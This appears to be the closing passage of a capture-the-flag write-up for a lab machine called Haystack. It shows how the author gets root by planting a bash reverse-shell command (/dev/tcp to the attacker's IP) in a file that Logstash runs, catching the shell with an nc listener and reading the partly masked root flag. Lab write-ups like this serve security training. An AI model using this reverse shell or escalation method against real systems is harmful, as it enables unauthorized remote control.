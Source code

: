 ![grok.png](../../resources/1ad249f94c6d4355810f1722c16bf999.png)

Now lets add that command into a file name <b>logstash_shell</b> and make it executable

```
# echo "Ejecutar comando : bash -i >& /dev/tcp/10.10.14.21/10000 0>&1" > logstash_shell

# chmod +x logstash_shell
```
I make sure to have my <b>nc</b> listener ready and I decided to include the <b>-k</b> option since the shell sometimes connects/disconnects multiple times so I didn't want the listener to have the same problem. Eventually you should have a root shell spawn.
```
# nc -lkvnp 10000                                                                                                                           
Ncat: Version 7.80 ( https://nmap.org/ncat )                                                                                                                          
Ncat: Listening on :::10000                                                                                                                                           
Ncat: Listening on 0.0.0.0:10000                                                                                                                                      
Ncat: Connection from 10.10.10.115.
Ncat: Connection from 10.10.10.115:54928.
bash: no hay control de trabajos en este shell
[root@haystack /]#
```
Now I can read the the root flag
```
[root@haystack /]# cat /root/root.txt                                                   
3f5f727c38d9f70****************
```
<br><br><br>
